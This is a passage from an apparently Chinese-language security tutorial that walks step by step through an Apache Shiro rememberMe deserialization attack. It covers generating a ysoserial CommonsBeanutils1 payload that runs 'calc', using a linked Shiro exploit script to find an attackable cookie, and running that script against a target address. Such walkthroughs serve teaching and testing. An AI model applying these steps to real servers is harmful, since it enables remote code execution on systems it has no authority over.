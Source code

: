4.  
ysoserial工具根目录启动  
cmd  
，输入：  
java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.class  
    
生成  
payload  
。意思：  
  
调用  
ysoserial.jar  
和这个利用链  
CommonsBeanutils1  
，  
"  
calc  
"  
这个就是要执行的命令，输入到  
payload.class  
文件里  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCiaMXKGzDLL98xiapNRdqyRHfpCibibU0E8Yddltv4JMyUo4xHMr1VjpjSA/640?wx_fmt=png&from=appmsg "")  
  
5.  
然后利用  
Shiro  
的  
Exp  
爆破出可以攻击的  
 rememberMe Cookie  
：  
https://github.com/wuppp/shiro_rce_exp  
。  
  
填充  
rememberMe  
字段：登录网站时勾选  
--  
自动登录，即可在数据包  
cookie  
中生成。最后加上个  
payload.class  
文件，最终可获得加密的  
payload  
。  
  
输入：  
python  
2  
 shiro_exp.py   
目标地址  
  
rememberMe  
字段  
   